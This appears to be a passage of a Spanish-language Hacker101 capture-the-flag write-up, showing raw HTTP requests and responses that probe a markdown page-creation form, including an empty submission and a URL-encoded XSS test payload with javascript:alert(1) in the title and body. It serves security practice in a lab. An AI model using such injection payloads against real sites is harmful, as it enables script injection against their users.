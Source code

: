 ```HTTP
</html>
```

**Observaciones**

Existe un formulario en el mismo endpoint via POST. El form acepta markdown.

**Formulario de creación de página**

Campos: title, body

#### Pruebas al form `/page/create`

**Campos vacíos**
```HTTP
POST /page/create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 12
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4

title=&body=


HTTP/1.1 302 FOUND
Connection: keep-alive
Content-Length: 201
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 15:42:53 GMT
Location: /page/9
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/page/9">/page/9</a>. If not, click the link.
```

**XSS en campos del formulario**
```HTTP
POST /page/create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 114
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4

title=%3Cform+src%3D%27javascript%3Aalert%281%29%3B%27%3E&body=%3Cform+src%3D%27javascript%3Aalert%281%29%3B%27%3E


HTTP/1.1 302 FOUND
Connection: keep-alive
Content-Length: 203
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 15:44:47 GMT
Location: /page/10
Server: openresty/1.27.1.2

```